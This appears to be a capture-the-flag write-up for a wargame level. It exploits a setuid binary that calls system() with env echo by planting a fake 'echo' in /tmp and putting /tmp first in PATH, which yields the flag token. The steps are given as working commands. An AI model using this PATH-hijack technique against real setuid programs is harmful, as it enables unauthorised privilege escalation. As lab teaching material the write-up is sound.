 Let's inspect home directory:
```
ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

We see a file owned by flag03.

It seems to be an executable.
Let's execute it.
It says: `Exploit me`.

Let's send it to host and inspect it with Hopper (a dissassembler).
Dissassmbled main function looks like this:
```
int main() {
    var_8 = getegid();
    var_4 = geteuid();
    setresgid(var_8, var_8, var_8);
    setresuid(var_4, var_4, var_4);
    eax = system("/usr/bin/env echo Exploit me");
    return eax;
}
```

Using `PATH` variable we can replace `echo` command.

We may call to `getflag` because `level03` has required permission.
Let's write a simple script, that writes result of `getflag` call:
```
echo $(getflag)
```

We can't create at home so, create it at `/tmp`:
```
cd /tmp
echo '/bin/getflag' > echo
chmod 777 echo
```

Now modify `PATH` variable:
```
export PATH=/tmp:$PATH
```

And execute `level03`. We get the token!


Resources:
https://failingsilently.wordpress.com/2017/09/08/exploiting-calls-to-system/